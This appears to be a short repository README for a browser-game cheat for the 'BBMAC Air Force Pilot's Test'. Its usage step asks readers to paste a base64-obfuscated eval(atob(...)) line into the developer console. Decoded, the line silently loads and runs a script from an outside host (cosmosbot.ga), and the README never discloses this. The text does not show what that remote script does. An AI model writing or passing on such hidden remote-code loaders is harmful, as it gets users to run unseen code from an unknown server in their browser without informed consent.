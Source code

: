 # Air Force Pilot's Test Cheat
A JavaScript based cheat engine for the [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm).

## Features
 - Enemies disappear on game start
 - Timer below player
 - Double click player to bring back enemies

## How to use
Whilst you're on [BBMAC Air Force Pilot's Test](http://bbmac.net/game/skill_test.htm), open the developer tools (F12) and go to the console. Paste the following code into the console.

`eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9jb3Ntb3Nib3QuZ2EvY2RuL0NvbnRlbnQvaW5qZWN0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZChzY3JpcHQpOw=='))`

If it worked, you should see the enemies highlighted with the word 'Enemy'.
